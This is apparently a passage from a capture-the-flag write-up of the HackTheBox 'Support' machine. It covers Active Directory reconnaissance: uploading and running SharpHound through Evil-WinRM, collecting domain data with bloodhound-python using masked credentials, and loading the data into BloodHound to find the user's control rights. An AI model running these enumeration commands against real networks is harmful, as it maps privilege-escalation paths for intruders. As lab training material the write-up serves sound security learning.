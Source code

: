 ```powershell
*Evil-WinRM* PS C:\Users\support\Downloads> upload SharpHound.exe
*Evil-WinRM* PS C:\Users\support\Downloads> ./SharpHound.exe --collectionmethods All --zipfilename bloodhound
*Evil-WinRM* PS C:\Users\support\Downloads> download C:\Users\support\Downloads\20220804095517_bloodhound.zip /home/kali/Downloads/bloodhound.zip
```

Unfortunately, this doesn't work for me. BloodHound always gives "BAD JSON FILE" error and I don't know how to fix it. So, I've used `bloodhound-python` script to collect data. It grabs less data than SharpHound, but it is enough for this machine.

```zsh
$ bloodhound-python -v -u 'support' -p 'XXXXXXXXXXXXXXXXXXXXXXXXXXXX' -ns 10.10.11.174 -d support.htb -c All
$ ll
total 180K
 12K -rw-r--r--  1 kali kali  11K Aug  5 10:22  20220805102215_computers.json
4.0K drwxr-xr-x  3 kali kali 4.0K Aug  5 10:22  .
4.0K -rw-r--r--  1 kali kali 3.4K Aug  5 10:22  20220805102215_domains.json
 92K -rw-r--r--  1 kali kali  86K Aug  5 10:22  20220805102215_groups.json
 60K -rw-r--r--  1 kali kali  54K Aug  5 10:22  20220805102215_users.json
4.0K drwxr-xr-x 39 kali kali 4.0K Aug  5 10:11  ..
```

We've got the data for BloodHound, now we set up BloodHound and login:

```zsh
$ sudo neo4j console
$ bloodhound
```

We need to import our data manually, because bloodhound-python makes results in raw json files without an archieve. To do that we need to press "Upload data" button and select our json files.

![Upload button](/assets/hackthebox/support/upload_button.png)

Next, in the search bar we find our "support@support.htb" user and mark it as owned. We can see what rights it has in `Node info`. We can see it's outbound control rights. Select "Transitive Object Control".

![User support rights](/assets/hackthebox/support/support_rights.png)